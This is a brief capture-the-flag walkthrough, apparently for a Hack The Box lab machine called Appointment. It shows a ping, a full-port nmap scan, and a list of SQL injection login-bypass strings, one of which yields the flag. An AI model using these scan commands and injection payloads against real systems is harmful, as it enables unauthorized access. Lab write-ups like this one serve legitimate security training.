 ![Appointment.jpg](/assets/appointment.jpg)

1. Send an ICMP echo request to machine's IP address..
```bash
┌──(kali㉿kali)-[~]
└─$ ping -c 2 10.129.208.7
```

2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.129.208.7
```

**Output**
``` bash
PORT   STATE SERVICE
80/tcp open  http
```


3. Access to web page in the browser
![Web.PNG](/assets/appointment-web.PNG)


4. Out goal is broke the web page with **Sql Injection**

**Try with**

`' OR '1`

`' OR 1 -- -`

`" OR "" = "`

`" OR 1 = 1 -- -`

`' OR '' = '`

`'='`

`'LIKE'`

`'=0--+`

` OR 1=1`

`' OR 'x'='x`

`' AND id IS NULL; --`


5. With this `' OR 1 = 1 -- -` 

![Sql_Injection.PNG](/assets/appointment-web2.PNG)

6. And BOOM!
![Flag](/assets/appointment-flag.PNG)


**By: Est**
